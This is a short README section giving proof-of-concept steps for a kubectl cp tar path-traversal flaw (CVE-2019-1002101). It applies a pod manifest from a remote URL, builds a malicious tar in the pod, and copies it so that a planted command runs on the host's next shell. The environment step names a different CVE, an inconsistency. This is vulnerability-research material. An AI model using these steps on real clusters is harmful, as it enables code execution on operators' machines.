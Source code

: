 ## Proof of Concept

To perform the Proof of Concept, please follow the below steps:

1. Prepare the environment using the following command in metarget's folder<br />
`./metarget cnv install cve-2016-5195`
2. Prepare the malicious Pod using the following command <br />
 `kubectl apply -f https://raw.githubusercontent.com/haseeb62/CVEs/main/CVE-2019-1002101/POC/ubuntu.yaml`
3. Exec in the pod and execute the scripts to prepare malicious files <br />
  `kubectl exec -it ubuntu -- /bin/bash` <br />
  `./setupTar.sh`<br />
  `./createPwnTar.sh`<br />
  
  
4. In the host, execute a copy command to copy a file from the pod to the host<br />
`sudo kubectl cp ubuntu:/tmp/twist twist`<br />
5. Open a new bash session and the command in line 17 of createPwnTar.sh will be executed successfully.<br />


